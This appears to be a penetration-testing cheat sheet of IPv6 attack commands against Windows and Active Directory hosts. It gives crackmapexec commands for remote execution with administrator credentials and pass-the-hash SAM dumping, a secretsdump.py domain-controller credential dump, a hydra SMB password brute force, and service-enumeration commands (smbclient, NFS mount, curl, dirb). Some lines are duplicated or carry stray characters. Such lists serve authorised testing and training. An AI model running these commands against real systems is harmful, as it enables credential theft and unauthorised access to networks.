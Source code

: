 ### IPv6 Assessment
```
crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" 
crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210-u Administrator -H "Hash" --sam 
crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam 
crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -H "Hash" -x "hostname"
python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:DB8:7654:3210:FEDC:BA98:7654:3210 
crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam 
crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam 
crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam 
```

### IPv6 hydra Password Brute Force

hydra -l Administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 smb://[IPv6] 

### IPv6 Services
```
ssh MeMe@fe80::ea9a:8fff:fe67:190d%eth0 |
smbclient -L //IPV6%eth0 |
http://[IPV6] 
telnet IPV6 80 
mount -t nfs [2001:db8::60fe:5bff:febc:912]:/home/MeMe /home/mount/ 
curl -g [fe80::ba27:ebff:fe60:89af] 
curl -g [::1]:8080
curl -g http://[IPV6]:8080/ 
curl -I [IPV6] -v -V -K
dirb http://[IPV6]
```
